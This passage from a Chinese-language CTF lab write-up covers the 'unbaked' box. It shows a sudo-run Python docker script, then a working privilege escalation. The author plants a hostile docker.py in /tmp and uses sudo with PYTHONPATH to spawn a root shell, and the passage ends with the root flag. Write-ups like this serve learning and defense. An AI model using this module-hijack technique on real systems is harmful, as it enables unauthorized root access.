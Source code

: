 ```python title="/opt/dockerScript.py"
import docker

# oliver, make sure to restart docker if it crashes or anything happened.
# i havent setup swap memory for it
# it is still in development, please dont let it live yet!!!
client = docker.from_env()
client.containers.run("python-django:latest", "sleep infinity", detach=True)
```

### 尝试利用

由于还是目录可控，所以可以直接接管 `docker.py`，从而实现提权至 `root`

## User - root

```bash
oliver@unbaked:/home/oliver$ touch /tmp/docker.py
oliver@unbaked:/home/oliver$ echo "import pty" >> /tmp/docker.py
oliver@unbaked:/home/oliver$ echo 'pty.spawn("/bin/bash")' >> /tmp/docker.py
oliver@unbaked:/home/oliver$ sudo PYTHONPATH=/tmp python /opt/dockerScript.py
root@unbaked:/home/oliver# whoami
root
```

### flag - root

```plaintext
CONGRATS ON PWNING THIS BOX!
Created by ch4rm & H0j3n
ps: dont be mad us, we hope you learn something new

flag: Unb4ked_GOtcha!
```
